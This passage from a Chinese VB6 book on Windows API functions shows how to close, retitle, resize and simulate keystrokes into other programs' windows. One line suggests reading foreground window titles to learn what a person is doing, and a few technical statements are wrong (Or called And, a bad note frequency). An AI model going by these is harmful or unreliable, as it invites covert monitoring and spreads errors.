上面的代码使用 FindWindow 函数查找标题为“迅雷5”的第一个顶级窗口。如果找到该窗口，则函数返回窗口的句柄；若无法找到对应的窗口，则返回 0，给出提示“没有找到迅雷5的窗口”。请读者朋友们注意，第一个参数 lpClassName 是设置成空字符串的，而第二个参数为指定的窗口标题。

### 5.4.5 PostMessage 函数——消息发送函数

PostMessage 函数用于向窗口发送一条消息，可以将窗口关闭、最大化、最小化等。我们知道，Windows 是采用消息机制的。PostMessage 函数的 API 函数声明如下：

```vb
Declare Function PostMessage& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)
```

函数的参数设置请参考下面的表格：

| 参数 | 类型及说明 |
|---|---|
| hwnd | Long，接收消息的那个窗口的句柄。如设为 HWND_BROADCAST，表示投递给系统中的所有顶级窗口。如设为零，表示投递一条线程消息。 |
| wMsg | Long，消息标识符，也就是表示消息的类型 |
| wParam | Long，具体由消息决定 |
| lParam | Any，具体由消息决定 |

下面我们示例使用 FindWindow 函数来查找到“迅雷5”的窗口，返回窗口的句柄，并使用 PostMessage 函数关闭“迅雷5”的窗口。

请读者朋友们注意，上面的函数声明中有一个“&”，它表明该函数的返回值是以值传递的，默认情况下，函数返回值以地址传递。

在这里消息标识符“wMsg”是使用常数表示的，下面介绍一下如何使用 API 浏览器查看一些常用的常数。

打开 API 浏览器，在 API 类型中选择“常数”，输入“WM”两个字符进行查找。“WM”指的是 Windows Message，也就是 Windows 的消息，如图 5-10 所示。

在声明范围选项中选择“私有”，然后双击某个可用项，此时，在选定项中就会列出常数对应的语句了。我们可以将它复制到代码窗口中。

图5-10 使用API浏览器查找常数

新建一个工程，在窗体通用部分进行 API 函数声明和常数的定义：

```vb
' 声明API函数FindWindow
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long

' 声明函数PostMessage
Private Declare Function PostMessage& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)

' 定义常数WM_CLOSE
Private Const WM_CLOSE = &H10
```

接着，在窗体的载入事件中添加下面的代码：

```vb
Private Sub Form_Load()
    Dim thunderhwnd As Long                    ' 用于保存函数返回值的变量
    ' 尝试找到包含“迅雷5”的顶级窗口
    thunderhwnd = FindWindow(VBNullString, "迅雷5")
    If thunderhwnd <> 0 Then                   ' 如果返回成功，则使用PostMessage发送消息关闭之
        PostMessage thunderhwnd, WM_CLOSE, 0&, VBNullString
    Else
        MsgBox "没有找到迅雷5的窗口"
    End If
End Sub
```

上面的代码中，程序返回“迅雷5”窗口的句柄到变量 thunderhwnd 中，然后使用代码 `PostMessage thunderhwnd, WM_CLOSE, 0&, VBNullString` 将迅雷的窗口关闭。注意 PostMessage 函数的第一个参数设置成了迅雷窗口的句柄，而第二个参数被设置成了具体的某个消息（WM_CLOSE 是用于关闭指定窗口的消息）。第三个参数设置成了 0，按值传递，因此写成了 0& 形式。第四个参数设置成空字符串（VBNullString）即可。

运行上面的代码，迅雷窗口会被立即关闭。

如果要发送一个消息将迅雷的窗口最大化，则只需要将上面的代码中 PostMessage 函数的第二个参数换成 WM_SYSCOMMAND 常数，而将第三个参数换成 SC_MAXIMIZE 常数，这两个常数均可以在 API 浏览器中查到。

下面来修改代码，实现将迅雷的窗口最大化，并呈现出来给用户，也就是使迅雷5的窗口获取焦点，成为最上层的窗口。在窗体的通用部分添加下面的代码：

```vb
' 声明API函数
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Private Declare Function PostMessage& Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)

' 常数
Private Const WM_SYSCOMMAND = &H112
' 常数，使窗体最大化
Private Const SC_MAXIMIZE = &HF030&
' 常数，使窗口获取焦点
Private Const WM_SETFOCUS = &H7
```

在窗体载入事件中添加代码，实现预定的功能：

```vb
Private Sub Form_Load()
    Dim thunderhwnd As Long                 ' 用于保存函数返回值的变量
    ' 尝试找到包含“迅雷5”的顶级窗口
    thunderhwnd = FindWindow(VBNullString, "迅雷5")
    If thunderhwnd <> 0 Then                ' 如果成功返回窗口句柄
        ' 发送消息将程序最大化
        PostMessage thunderhwnd, WM_SYSCOMMAND, SC_MAXIMIZE, VBNullString
        ' 发送消息使窗口获取焦点，成为最上层的窗口
        PostMessage thunderhwnd, WM_SETFOCUS, 0&, VBNullString
    Else
        MsgBox "没有找到迅雷5的窗口"
    End If
End Sub
```

运行完上面的代码，会发现迅雷的窗口成了最上层的窗口，并且被最大化了。PostMessage 函数是一个极为重要的函数，我们经常可以使用到。由于 Windows 内部是采用消息机制的，我们使用该函数可以进行的操作还很多，希望读者朋友们可以熟练掌握它。

### 5.4.6 Beep 函数——利用系统喇叭发声

Beep 函数是一个非常简单的 API 函数，使用它可以让系统喇叭发出特定频率的某个声音。它的 API 函数声明是：

```vb
Declare Function Beep Lib "kernel32" Alias "Beep" (ByVal dwFreq As Long, ByVal dwDuration As Long) As Long
```

对其中的两个参数做如下说明：

| 参数 | 类型及说明 |
|---|---|
| dwFreq | Long，声音频率（从 37Hz 到 32767Hz）。在 Windows 95 中忽略 |
| dwDuration | Long，声音的持续时间，以毫秒作为单位。如果设置成 -1，表示一直播放声音，直到再次调用该函数为止。在 Windows 95 中会被忽略 |

不同频率可以发出不同的声音，请大家参考下面简谱中音名与频率的关系表格：

| 音名 | 频率(HZ) | 音名 | 频率(HZ) | 音名 | 频率(HZ) |
|---|---:|---|---:|---|---:|
| 低音1 | 261.63 | 中音1 | 523.25 | 高音1 | 1046.50 |
| 低音2 | 293.67 | 中音2 | 587.33 | 高音2 | 1174.66 |
| 低音3 | 329.63 | 中音3 | 659.25 | 高音3 | 1381.51 |
| 低音4 | 349.23 | 中音4 | 698.46 | 高音4 | 1396.92 |
| 低音5 | 391.99 | 中音5 | 783.99 | 高音5 | 1567.98 |
| 低音6 | 440.00 | 中音6 | 880.00 | 高音6 | 1760.00 |
| 低音7 | 493.88 | 中音7 | 987.76 | 高音7 | 1975.52 |

下面来示例使用 Beep 函数简单发出一段声音，从中音1一直到中音7，每个音发1秒钟，也就是1000毫秒。在代码窗口中写入如下代码：

```vb
' 在窗体通用部分进行声明
Private Declare Function Beep Lib "kernel32" (ByVal dwFreq As Long, ByVal dwDuration As Long) As Long

' 在窗体载入时发出声音，每个音 1 秒钟
Private Sub Form_Load()
    Beep 523.25, 1000
    Beep 587.33, 1000
    Beep 659.25, 1000
    Beep 698.46, 1000
    Beep 783.99, 1000
    Beep 880, 1000
    Beep 987.76, 1000
End Sub
```

请读者朋友们注意，在运行这段代码的时候不要戴上耳机，因为声音会非常大。

### 5.4.7 BroadcastSystemMessage 函数——向顶级窗口发送消息

BroadcastSystemMessage 函数用于向系统所有的顶级窗口广播一个消息。它的函数声明是：

```vb
Declare Function BroadcastSystemMessage Lib "user32" Alias "BroadcastSystemMessage" (ByVal dw As Long, pdw As Long, ByVal un As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
```

该函数有 5 个参数，它们的说明分别如下：

| 参数 | 类型及说明 |
|---|---|
| dw | Long，可以是下述常数中的一个或多个 |
| pdw | Long，下述常数中的一个或多个 |
| un | Long，消息编号 |
| wParam | Long，由消息决定 |
| lParam | Long，由消息决定。如指定了 BSF_LPARAMBUFFER，这就是位于调用进程地址空间的一个内存缓冲区的地址，而且缓冲区的第一个 16 位字包含了缓冲区的长度 |

- dw 可用常数：
  - BSF_FLUSHDISK：每次处理完一条消息后，都对磁盘进行刷新（将未存盘的数据存下来）
  - BSF_FORCEIFHUNG：如目标处于挂起状态，则在设定的超时后到期返回
  - BSF_IGNORECURRENTTASK：发送任务不接收消息
  - BSF_LPARAMBUFFER：lParam 指向一个内存缓冲区
  - BSF_NOHANG：跳过被挂起的所有进程
  - BSF_POSTMESSAGE：投递消息。不与 BSF_LPARAMBUFFER 和 BSF_QUERY 兼容
  - BSF_QUERY：将消息顺序发给进程，只有前一个返回 TRUE 时，才进入下一个进程

- pdw 可用常数：
  - BSF_ALLCOMPONENTS：消息进入能够接收消息的每一个系统组件
  - BSF_APPLICATIONS：消息到达应用程序
  - BSF_INSTALLABLEDRIVERS：消息到达可安装的驱动程序
  - BSF_NETDRIVERS：消息到达网络驱动程序
  - BSF_VXDS：消息到达系统设备驱动程序

上面对于各个参数的说明看起来比较复杂一点，下面提供一个实例供大家参考。先建工程，然后在窗体的通用部分进行函数声明和常数定义：

```vb
' API 函数声明
Private Declare Function BroadcastSystemMessage Lib "user32" (ByVal dw As Long, pdw As Long, ByVal un As Long, ByVal wParam As Long, ByVal lParam As String) As Long

' 定义两个常数
Private Const BSF_FORCEIFHUNG = &H20
Private Const WM_SETTEXT = &HC
```

这里需要指出的是，`WM_SETTEXT` 消息可以用来设置窗口的标题。我们在窗体载入事件中添加如下代码：

```vb
Private Sub Form_Load()
    BroadcastSystemMessage BSF_FORCEIFHUNG, 0, WM_SETTEXT, 0, "《黑客手册》出品"
End Sub
```

图 5-11 所有的顶级窗口标题都被改变

这样就向所有的系统顶级窗口发送了一个 `WM_SETTEXT` 消息，可以把这些顶级窗口的标题都设置成“《黑客手册》出品”。运行后如图 5-11 所示，所有的包括 QQ 聊天窗口、卡巴斯基、记事本窗口等在内的顶级窗口的标题都变成了我们设定的内容。`BroadcastSystemMessage` 应用并不普遍，通常，我们只是针对某个特定的窗口使用 `PostMessage` 函数来发送消息，大家了解一下即可。

### 5.4.8 CloseWindow 函数——最小化指定的窗口

`CloseWindow` 函数使用非常简单，使用它可以将指定的窗口最小化。请读者朋友们注意，这里 Close 并不是关闭的意思，仅仅是最小化罢了。如果要关闭窗口，则请使用 `PostMessage` 函数。该函数的 API 函数声明如下：

```vb
Declare Function CloseWindow Lib "user32" Alias "CloseWindow" (ByVal hwnd As Long) As Long
```

其中参数 `hwnd` 所定义的是：

- `hwnd`：`Long`，欲最小化的那个窗口的句柄。

下面示例使用 `FindWindow` 函数查找到一个空白记事本的窗口，再使用 `CloseWindow` 函数将其最小化。请看下面的代码：

```vb
' 在通用部分声明两个 API 函数 FindWindow 和 CloseWindow
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Private Declare Function CloseWindow Lib "user32" (ByVal hwnd As Long) As Long

Private Sub Form_Load()
    Dim MyHwnd As Long
    MyHwnd = FindWindow(VBNullString, "无标题 - 记事本")
    If MyHwnd <> 0 Then
        CloseWindow MyHwnd
    End If
End Sub
```

### 5.4.9 GetForegroundWindow 函数——返回前台窗口的句柄

该函数用于获得前台窗口的句柄。这里的“前台窗口”是指前台应用程序的活动窗口，也就是用户正在进行浏览和操作的窗口。在 Windows 中，只允许有一个窗口是活动的，其他的都是在后台运行。`GetForegroundWindow` 函数的 API 函数声明为：

```vb
Declare Function GetForegroundWindow Lib "user32" Alias "GetForegroundWindow" () As Long
```

该函数没有任何参数，函数的返回值即前台窗口的句柄。我们利用 `GetForegroundWindow` 函数和 `GetWindowText` 函数来获取前台窗口的句柄和对应的标题。

新建一个窗口，在窗体中绘制两个 TextBox 控件和一个 Timer 控件，控件的基本布局如图 5-12 所示。将 `Timer1` 的 `Interval` 属性设置成 100，然后，编写如下代码：

图 5-12 控件的基本布局

```vb
' 在窗体通用部分声明 API 函数 GetForegroundWindow 和 GetWindowText
Private Declare Function GetForegroundWindow Lib "user32" () As Long
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long

Private Sub Timer1_Timer()
    Dim hwnd1 As Long
    hwnd1 = GetForegroundWindow()
    Me.Text1 = hwnd1
    Dim title As String * 200
    Dim len1 As Integer
    len1 = GetWindowText(hwnd1, title, 200)
    Me.Text2 = Mid(title, 1, len1)
End Sub
```

运行上面的代码，再打开卡巴斯基 2009 的主程序，可以发现正确返回了句柄和标题到 TextBox 中，如图 5-13 所示。如果我们想知道一个人正在利用计算机做什么，就可以使用该函数结合 `GetWindowText` 函数获取前台窗口的标题。它们使用起来都十分简单。

图 5-13 程序运行结果

### 5.4.10 GetWindowsDirectory 函数——获取 Windows 文件夹所在的路径

`GetWindowsDirectory` 函数用于获取 Windows 文件夹的路径。在这个文件夹里，保存了大多数 Windows 应用程序文件及初始化文件。它的用法比较简单，请看下面的函数声明：

```vb
Declare Function GetWindowsDirectory Lib "kernel32" Alias "GetWindowsDirectoryA" (ByVal lpBuffer As String, ByVal nSize As Long) As Long
```

对于其中的两个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| lpBuffer | String。指定一个字符串缓冲区，用于装载 Windows 目录名。除非是根目录，否则目录中不会有一个中止用的“\”字符。 |
| nSize | Long。`lpBuffer` 字符串的最大长度，我们设置为预先为 `lpBuffer` 缓冲区分配的大小。 |

函数的返回值为 Long，表示复制到 `lpBuffer` 的字符串长度。如果 `lpBuffer` 不够大，不能容下整个字符串，就会返回 `lpBuffer` 要求的长度。返回零则表示失败。下面示例返回 Windows 文件夹所在的路径，写入下面的代码：

```vb
' 在通用部分进行 API 函数声明
Private Declare Function GetWindowsDirectory Lib "kernel32" Alias "GetWindowsDirectoryA" (ByVal lpBuffer As String, ByVal nSize As Long) As Long

Private Sub Form_Load()
    Dim len1 As Long
    Dim windir As String * 200
    len1 = GetWindowsDirectory(windir, 200)
    MsgBox Mid(windir, 1, len1), VBInformation, "Windows 所在目录"
End Sub
```

在上面的代码中，我们预先为 `windir` 变量分配的大小为 200 个字符，初始化全部由 `Chr(0)` 填充。使用 `GetWindowsDirectory` 函数返回文件夹路径的实际大小到变量 `len1`，且复制路径的值到变量 `windir` 的前面部分。最后使用 `Left` 函数从 `windir` 中截取到路径的实际值。运行后的结果如图 5-14 所示。

与函数 `GetWindowsDirectory` 类似的函数还有 `GetSystemDirectory`，它的作用是返回 `System32` 文件夹所在的路径。这两个函数使用得比较多。如果要判断用户的操作系统安装在哪个磁盘，同样可以使用它们来实现。

图 5-14 程序运行结果

### 5.4.11 GetVersionEx 函数——返回操作系统的版本

`GetVersionEx` 函数可以返回操作系统的版本信息。例如，可以使用它来判断用户使用的是 XP 系统或者是 Vista 系统。当然，只要是使用 Windows 操作系统，都是可以进行判断的。该函数的 API 函数声明是：

```vb
Declare Function GetVersionEx Lib "kernel32" Alias "GetVersionExA" (ByVal lpVersionInformation As OSVERSIONINFO) As Long
```

可以看到，函数有一个参数 `lpVersionInformation`，它是 `OSVERSIONINFO` 类型。而这个 `OSVERSIONINFO` 类型是一个自定义的数据类型。下面来看看类型的定义：

```vb
Type OSVERSIONINFO    ' 大小是 148 Bytes
    dwOSVersionInfoSize As Long
    dwMajorVersion As Long
    dwMinorVersion As Long
    dwBuildNumber As Long
    dwPlatformId As Long
    szCSDVersion As String * 128
End Type
```

其中各个字段所表示的意义如下表所示：

| 字段 | 类型与说明 |
|---|---|
| dwOSVersionInfoSize | Long，数据结构的大小，当前固定为 148 Bytes。这个字段的值必须在调用 Function 过程之前设定。 |
| dwMajorVersion | Long，指定当前操作系统的主版本号（dwMajorVersion）。 |
| dwMinorVersion | Long，指定当前操作系统的次版本号（dwMinorVersion）。 |
| dwBuildNumber | Long，指定操作系统的版本号。 |
| dwPlatformId | Long，指定被操作系统所支持的平台。可能值为：`VER_PLATFORM_WIN32s`（Windows 3.1 下的 Win32 平台）；`VER_PLATFORM_WIN32_WINDOWS`（Windows 95 下的 Win32 平台）；`VER_PLATFORM_WIN32_NT`（Windows NT 平台）。 |
| szCSDVersion | String，包含了与操作系统有关的附加信息。 |

这个结构体中包括了操作系统的各种信息，它可以和 `GetVersionEx` 函数联合起来使用而返回需要的信息。下面示例展示了如何判断当前操作系统的版本，从 Win95 向上到 Vista，都可以进行判断。

新建一个工程，编写如下代码：

```vb
' 在窗体通用部分声明 API 函数，并定义类型
Private Declare Function GetVersionEx Lib "kernel32" Alias "GetVersionExA" (lpVersionInformation As OSVERSIONINFO) As Long

Private Type OSVERSIONINFO
    dwOSVersionInfoSize As Long
    dwMajorVersion As Long
    dwMinorVersion As Long
    dwBuildNumber As Long
    dwPlatformId As Long
    szCSDVersion As String * 128    ' Maintenance string for PSS usage
End Type

' 为窗体载入事件添加代码
Private Sub Form_Load()
    ' 声明两个变量，osinfor 为 OSVERSIONINFO 类型，而 osName 为字符串类型
    Dim osinfor As OSVERSIONINFO, osName As String
    osinfor.dwOSVersionInfoSize = Len(osinfor)   ' 设定结构体的大小
    GetVersionEx osinfor                         ' 调用 GetVersionEx 函数返回信息到变量 osinfor

    ' 下面对 osinfor 的 dwPlatformId 字段进行选择
    Select Case osinfor.dwPlatformId
        Case 1
            ' 如果 dwPlatformId 为 1，则继续对 dwMinorVersion 字段进行筛选
            Select Case osinfor.dwMinorVersion
                Case 0
                    osName = "Windows 95"
                Case 10
                    osName = "Windows 98"
                Case 90
                    osName = "Windows Millennium"
            End Select

        Case 2
            ' 如果 dwPlatformId 为 2，则继续对 dwMajorVersion 字段进行筛选
            Select Case osinfor.dwMajorVersion
                Case 3
                    osName = "Windows NT 3.51"
                Case 4
                    osName = "Windows NT 4.0"
                Case 5
                    Select Case osinfor.dwMinorVersion
                        Case 0
                            osName = "Windows 2000"
                        Case 1
                            osName = "Windows XP"
                        Case 2
                            osName = "Windows Server 2003"
                    End Select
                Case 6
                    Select Case osinfor.dwMinorVersion
                        Case 0
                            osName = "Vista"
                    End Select
            End Select

        Case Else
            osName = "函数返回失败!"
    End Select

    ' 完成所有的筛选，提示最终的筛选结果
    MsgBox "您当前的操作系统是：" & osName
    End
End Sub
```

上面的代码中，我们进行了多次筛选，首先是 `dwPlatformId` 字段筛选其所采用的平台，如果 `dwPlatformId` 字段的值为 1，则继续筛选 `dwMinorVersion` 字段的值；若 `dwPlatformId` 字段的值为 2，则筛选 `dwMajorVersion` 字段（主版本）的值，而当主版本号为 5 时，则需进一步筛选次版本号的值，因为 5.0 版本对应的是 Windows 2000，5.1 版本对应的是 Windows XP，而 5.2 对应的是 Windows 2003。看起来是稍微麻烦了一点，但由于目前使用得最普遍的是 Windows XP，所以我们一般只需要判断当前系统是 Windows XP 以下还是它以上的操作系统。读者朋友们需要了解的是，使用 VB6 编写的程序几乎可以在 Windows 95 及以上的任意一个操作系统上成功运行。笔者使用的是 Vista Home Basic 版本，程序运行结果如图 5-15 所示。

### 5.4.12 keybd_event 函数——实现模拟按键

`keybd_event` 函数可以实现模拟按键，它所实现的效果跟从键盘上按键的效果是一样的。函数的 API 声明为：

```vb
Declare Sub keybd_event Lib "user32" Alias "keybd_event" (ByVal bVk As Byte, ByVal bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)
```

函数有 4 个参数，对它们的说明如下表所示：

| 参数 | 类型及说明 |
|---|---|
| bVk | Byte，欲模拟的虚拟键码。 |
| bScan | Byte，键的 OEM 扫描码。 |
| dwFlags | Long，零；或设为下述两个标志之一：`KEYEVENTF_EXTENDEDKEY`（指出是一个扩展键，而且在前面冠以 `0xE0` 代码）、`KEYEVENTF_KEYUP`（模拟松开一个键）。 |
| dwExtraInfo | Long，通常不用的一个值，可以设置成 0。API 函数 `GetMessageExtraInfo` 可取得这个值，允许使用的值取决于特定的驱动程序。 |

这里需要说明的是，虚拟键码都是与键盘上的按键一一对应的，它们可能是以 `VK` 开头的一些常数，这些常数可以在 API 浏览器中查看。如图 5-16 所示，在 API 浏览器中选择常数，然后输入“VK”，就可以查找到对应的诸多常数。

下面利用该函数编写一个浪漫表白用的程序，当运行程序时，打开空白的记事本窗口，依次输入下面的文字“亲爱的宝贝 我爱你 你是我永远的宝贝 我们一定会幸福的 加油哦 老公2009年8月”，这个程序是针对搜狗拼音输入法定制的。运行后会自动切换输入法。

新建一个工程，在窗体中画两个 Timer 控件，`Timer1` 的 `Interval` 属性设置成 100 毫秒。它们的 `Enabled` 属性都设置成 `False`。然后我们编写如下代码：

```vb
' 在窗体通用部分进行 API 函数声明
Private Declare Sub keybd_event Lib "user32" (ByVal bVk As Byte, ByVal bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)

' 定义几个常数，都是对应的虚拟键码
Private Const KEYEVENTF_EXTENDEDKEY = &H1   ' 指出是一个扩展键
Private Const KEYEVENTF_KEYUP = &H2         ' 弹起按键
Private Const VK_SPACE = &H20               ' Space 键对应的虚拟键码
```

```vb
Private Const VK_CONTROL = &H11              ' Ctrl 键对应的虚拟键码
Dim have1 As Integer                          ' 变量，保存已经模拟按下的键的个数
Option Explicit                               ' 强制变量声明
Dim word(150) As Integer                      ' 声明一个数组，有 150 个元素

Private Sub Form_Load()
    Dim words As String                       ' 我们需要打出的字的拼音
    words = "!QIN AI DE_BAO BEI__WO AI NI__NI SHI_WO_YONG YUAN DE_BAO BEI____WO MEN_YI DING_HUI_XING FU DE____JIA YOU O_____LAO GONG_2009NIAN_8YUE_"

    Dim i As Integer                          ' 计数变量
    For i = 0 To Len(words) - 1               ' 循环将需要按下的键保存到数组中
        If Mid(words, i + 1, 1) = " " Then    ' 如果是空白字符，则按下单引号
            word(i) = &HDE
        ElseIf Mid(words, i + 1, 1) = "_" Then ' 如果原来是 "_" 符号，则按下空格键
            word(i) = VK_SPACE
        Else                                   ' 如果既不是空白，也不是 "_" 符号，则按下这个字母键
            word(i) = Asc(Mid(words, i + 1, 1))
        End If
    Next i

    ' 以最大化窗口打开空白的记事本程序
    Shell "notepad.exe", VBMaximizedFocus
    ' 下面开始输入文字

    ' 先切换输入法，按下 Ctrl+Space 键
    keybd_event VK_CONTROL, 0, 0, 0           ' 按下 Ctrl 键
    keybd_event VK_SPACE, 0, 0, 0             ' 按下 Space 键

    ' 按下后再弹起按键
    keybd_event VK_CONTROL, KEYEVENTF_KEYUP, 2, 0  ' 弹起 Ctrl 键
    keybd_event VK_SPACE, KEYEVENTF_KEYUP, 2, 0    ' 弹起 Space 键

    have1 = 0                                 ' 初始一个键都还没有按下
    Timer1.Enabled = True                     ' Timer1 可用
End Sub

Private Sub Timer1_Timer()
    If word(have1) <> 0 Then                  ' 如果第 have1 个虚拟键码不是 0，则按下
        keybd_event word(have1), 0, 0, 0
        have1 = have1 + 1                     ' 已按下的键个数增加 1
    Else                                      ' 已经输出所有的文字，则退出程序
        Timer1.Enabled = False                ' 停止输出
        End                                   ' 退出程序
    End If
End Sub
```

上面的代码中，请读者朋友们注意这些地方：

- 1. 在字符串 “QIN AI DE_BAO BEI” 中，我们需要按下的键是进行了转换的，“QIN” 和 “AI” 之间的空白被转换成了单引号，而 “_” 被转换成了空格键。
- 2. 程序将所有需要按下的键的虚拟键码都保存在了一个数组中。这个数组中，所有的元素初始为 0。所以后面我们有语句 `If word(have1) <> 0 Then`，这里可以判断程序需要按下的键是否都按完了。
- 3. 如果你对上面的代码还不够清楚，可参考代码中的注释。
- 4. 请一定记得使用 API 浏览器查找相关的函数声明和常数。我们都不是神，无法记住那么多的声明和常数的定义。

运行上面的代码，可以看到，程序打开一个空白的记事本，并依次打出上面的文字，其打字速度跟正常的打字速度接近。最终结果如图 5-17 所示。

## 5.4.13 SetWindowPos函数——设置窗体的位置和状态

SetWindowPos 函数可以设置窗体的位置状态。它的 API 函数声明为：

```vb
Declare Function SetWindowPos Lib "user32" Alias "SetWindowPos" (ByVal hwnd As Long, ByVal hWndInsertAfter As Long, ByVal x As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long
```

对于函数中的几个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| hwnd | Long，欲定位的窗口的句柄 |
| hWndInsertAfter | Long，窗口句柄。在窗口列表中，窗口 hwnd 会置于这个窗口句柄后面。也可能选用下述值之一： |
| HWND_BOTTOM | 将窗口置于窗口列表的底部 |
| HWND_TOP | 将窗口置于 Z 序列的顶部 |
| HWND_TOPMOST | 将窗口置于列表的顶部，并位于任何最顶部窗口的前面 |
| HWND_NOTOPMOST | 将窗口置于列表的顶部，并位于任何最顶部窗口的后面 |
| x | Long，窗口新的 x 坐标。如 hwnd 是一个子窗口，则 x 用父窗口的客户区坐标表示 |
| y | Long，窗口新的 y 坐标。如 hwnd 是一个子窗口，则 y 用父窗口的客户区坐标表示 |
| cx | Long，指定新的窗口宽度 |
| cy | Long，指定新的窗口高度 |
| wFlags | Long，包含了旗标的一个整数 |
| SWP_DRAWFRAME | 围绕窗口画一个框 |
| SWP_HIDEWINDOW | 隐藏窗口 |
| SWP_NOACTIVATE | 不激活窗口 |
| SWP_NOMOVE | 保持当前位置（x 和 y 设定将被忽略） |
| SWP_NOREDRAW | 窗口不自动重画 |
| SWP_NOSIZE | 保持当前大小（cx 和 cy 会被忽略） |
| SWP_NOZORDER | 保持窗口在列表的当前位置（hWndInsertAfter 将被忽略） |
| SWP_SHOWWINDOW | 显示窗口 |
| SWP_FRAMECHANGED | 强迫一条 WM_NCCALCSIZE 消息进入窗口，即使窗口的大小没改变 |

> 注解：窗口成为最顶级窗口后，它下属的所有窗口也会进入最顶级。一旦将其设为非最顶级，则它的所有下属和主窗口也会转为非最顶级。Z 序列用垂直于屏幕的一根假想 Z 轴量化这种从顶部到底部排列的窗口顺序。

使用该函数，可以很容易地设置某个程序窗口的大小、程序在屏幕中显示的位置，也可以设置程序显示在最上层或最底层等。这些都是很实用的功能。

下面笔者示例结合 FindWindow 函数查找“卡巴斯基 2009”的窗口，并使用 SetWindowPos 函数将卡巴斯基的窗口设置成最上层，这样，卡巴斯基的窗口就可以显示在其他所有窗口的上面，而不会被其他窗口覆盖。

新建一个工程，写入下面的代码：

```vb
' 在窗体的通用部分声明 API 函数
Private Declare Function SetWindowPos Lib "user32" (ByVal hwnd As Long, ByVal hWndInsertAfter As Long, ByVal x As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long

' 声明 FindWindow 函数
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long

' 使用 API 浏览器查找到相关常数的值，并定义
Private Const HWND_TOPMOST = -1    ' 窗口保持最上层
Private Const SWP_NOSIZE = &H1     ' 窗口不可改变大小
Private Const SWP_NOMOVE = &H2     ' 窗口不可移动

Private Sub Form_Load()
    Dim KapaHwnd As Long              ' 变量，保存卡巴斯基的窗口句柄
    ' 返回卡巴斯基窗口的句柄
    KapaHwnd = FindWindow(VBNullString, "卡巴斯基反病毒软件 2009")
    If KapaHwnd <> 0 Then
        ' 如果查找到窗口，设置成最上层，不移动位置，不改变大小
        SetWindowPos KapaHwnd, HWND_TOPMOST, 0, 0, 0, 0, SWP_NOSIZE Or SWP_NOMOVE
    Else
        MsgBox "没有找到卡巴斯基 2009 的窗口"
    End If
End Sub
```

## 第五章 API编程

请读者朋友们注意，SWP_NOSIZE Or SWP_NOMOVE 中的 Or 相当于逻辑运算中的 And，也就是加运算。使用 Or 连接既不会改变大小，也不会改变程序窗口原来的位置。当上面我们设置了 SWP_NOSIZE 和 SWP_NOMOVE 时，其他的关于窗口位置和大小的参数都将失效，上面代码中设置成 0, 0, 0, 0 这样的形式只是为了方便读者朋友分隔参数。设置成 0 和设置成 10000，没有任何的分别。

SetWindowPos 函数使用起来非常简单，然而却极为实用。

我们知道，有些窗口是无法调整大小的。例如 QQ 的登录窗口，如图 5-18 所示。这个窗口除了能够最小化以外，并不能最大化（最大化按钮为灰），或者设置成其他的大小（无法拖动边沿）。但是，使用 SetWindowPos 函数可以达到你想要的各种目的。下面示例使用 SetWindowPos 函数将 QQ 的窗口变小，变为 100 × 100 的大小。

新建一个工程，写入下面的代码：

```vb
' 声明 API 函数
Private Declare Function SetWindowPos Lib "user32" (ByVal hwnd As Long, ByVal hWndInsertAfter As Long, ByVal x As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long

' 声明 API 函数
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long

' 定义常数
Private Const HWND_TOPMOST = -1                  ' 窗口保持最上层
Private Const SWP_SHOWWINDOW = &H40              ' 显示窗口
Private Const SWP_NOMOVE = &H2                   ' 不移动位置

Private Sub Form_Load()
    Dim QQHwnd As Long                               ' 变量，用于存储 QQ 登录窗口的句柄
    QQHwnd = FindWindow(VBNullString, "QQ 用户登录") ' 返回 QQ 登录窗口的句柄
    If QQHwnd <> 0 Then                              ' 如果成功返回 QQ 登录窗口的句柄
        ' 将窗口显示到最上层，宽和高设置成 100，位置不改变
        SetWindowPos QQHwnd, HWND_TOPMOST, 0, 0, 100, 100, SWP_SHOWWINDOW Or SWP_NOMOVE
    Else
        MsgBox "没有找到 QQ 登录窗口"               ' 返回句柄失败，则提示
    End If
End Sub
```

运行上面的代码，如果已经打开 QQ 的登录窗口，则该窗口会被缩小为 100 × 100 大小，窗口的显示位置不会改变，运行的最终结果如图 5-19 所示。

可以看到，QQ 的登录界面成了独一无二的小窗口，并且，由于无法拖动调整大小，你只能通过程序再一次调整大小显示出输入框。是不是很好玩？

### 5.4.14 CreateEllipticRgn 函数——创建一个椭圆区域

CreateEllipticRgn 函数使用十分简单，使用它可以创建一个椭圆的区域。它的 API 函数声明如下：

```vb
Declare Function CreateEllipticRgn Lib "gdi32" Alias "CreateEllipticRgn" (ByVal X1 As Long, ByVal Y1 As Long, ByVal X2 As Long, ByVal Y2 As Long) As Long
```

对四个参数的说明如下：

| 参数 | 类型及说明 |
|---|---|
| X1, Y1 | Long，矩形左上角 X、Y 坐标 |
| X2, Y2 | Long，矩形右下角 X、Y 坐标 |

